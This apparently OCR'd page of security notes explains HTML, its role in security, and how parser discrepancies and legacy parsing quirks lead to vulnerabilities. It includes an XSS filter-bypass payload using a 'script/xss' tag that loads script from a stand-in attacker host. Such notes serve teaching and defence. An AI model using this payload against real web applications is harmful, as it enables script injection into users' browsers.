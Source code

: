 # HTML

_Hypertext Markup Language_ is the standard markup language for documents displayed in a web-browser.

Web browsers receive HTML documents rom a web server or from local storage, and render the documents into multimedia web pages.

#### What's the role of HTML in security?

HTML can __embed programs__ written in a scriptining language such as JavaScript, which affects the behavior and content of web pages.

## Security

#### Parsing

HTML should be parsed according to the relevant spec, generally HTML5 now. It's often not just parsed by your browser but also Web-Application Firewalls and other filters.

> Wherever there's a discrepancy in how two items parse things, there's probably a vulnerability.

Let's see a canonical example.

You go to `http://example.com/vulnerable?name=<script/xss%20src=http://evilsite.com/my.js>` and it generates:

```html
<!DOCTYPE html>
<html>
    <head>
        <title>Vulnerable page named <script/xss src=...></title>
    </head>
</html>
```

A bad XSS filter on the web application may not see hat as a script tag due to it being a `script/xss` tag. Firefox's HTML parser, for example, treats the slash as a whitespace, enabling the attack!

#### Legacy Parsing

Due to decades of bad HTML, browsers are quite excellent at cleaning up after authors, and these conditions are often exploitable:

* `<script>` tag on its own wil automatically be closed at the ond of the page.
* A tag missing is closing angle bracket wil automatically by closed by the angle bracket of the next tag on the page.